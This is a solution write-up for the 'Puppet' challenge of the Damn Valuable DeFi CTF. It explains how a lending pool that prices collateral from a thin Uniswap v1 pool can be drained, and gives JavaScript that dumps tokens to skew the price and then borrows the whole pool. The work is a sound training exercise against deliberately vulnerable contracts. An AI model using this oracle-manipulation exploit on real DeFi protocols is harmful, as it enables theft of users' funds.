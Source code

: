 # Challenge #8 - Puppet

There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.

There's a DVT market opened in an Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.

Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

    [See the contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.2.0/contracts/puppet)
    [Complete the challenge](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/test/puppet/puppet.challenge.js)

# Solution

The `calculateDepositRequired(uint256 amount)` calculates the amount of eth you need to pay for borrowing an amount of token.

This function uses the following calculation to figure out the collateral ratio:

`(amount * ((uniswapPair.balance * (10**18)) / token.balanceOf(uniswapPair))) * 2) / 10**18;`

You can change the collateral price, by changing`uniswapPair.balance` or `token.balanceOf(uniswapPair)`.

To solve this challenge, I traded 999 token for eth through uniswap pool.

```js
//trade 999 tokens for eth
await token.approve(uniswapExchange.address, ethers.utils.parseEther("999"))
await uniswapExchange.tokenToEthSwapInput(
    ethers.utils.parseEther("999"),
    1,
    (await ethers.provider.getBlock("latest")).timestamp * 2
)
```

This changes the collateral ratio and allows you to borrow 100000 tokens for 19 eth. Now you borrow all the tokens from the PuppetPool.

```js
await lendingPool.borrow(ethers.utils.parseEther("100000"), {
    value: ethers.utils.parseEther((await lendingPool.calculateDepositRequired(110000)).toString()),
    gasLimit: 1e6,
})
```
